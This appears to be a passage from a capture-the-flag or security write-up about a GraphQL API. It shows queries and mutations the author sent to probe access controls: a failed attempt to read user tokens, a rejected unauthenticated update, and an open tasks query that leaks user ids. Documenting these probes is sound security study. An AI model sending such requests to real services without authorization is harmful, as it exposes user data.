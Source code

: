 The server blocks the request and asks for a cookie / authentication:

```json
"message":"No Cookie"
```

The user table cannot be queried:

```json
{
    "variables": {},
    "query": "{\n  User {\n    id\n    email\n    token\n    admin\n    adminToken\n    firstname\n    lastname\n  }\n}"
}
```

```json
"message":"Cannot query field \"User\" on type \"Query\".",
```

Same goes with an update operation:

```json
{"operationName":"update","variables":{"firstname":"ape","lastname":"hex","id":0,"newusername":"apehex"},"query":"mutation update($newusername: String!, $id: ID!, $firstname: String!, $lastname: String!) {\n  update(\n    newusername: $newusername\n    id: $id\n    firstname: $firstname\n    lastname: $lastname\n  ) {\n    username\n    email\n    id\n    firstname\n    lastname\n    __typename\n  }\n}"}
```

```json
"code":"UNAUTHENTICATED"
```

Still the tasks can be queried by anyone:

```json
{
    "variables": {"username": "Sally"},
    "query": "query($username: String!){\n tasks(username: $username){\n Assignedto\n username\n text\n taskstatus\n type\n}\n}"
}
```

And it leaks user ids:

```json
{
    "data": {
        "tasks": [
            {"Assignedto": "629a846186ac7d05add16881", "username": null, "text": "Lorem ipsum", "taskstatus": "completed", "type": "development"}]
    }
}
```


## Registering a new user
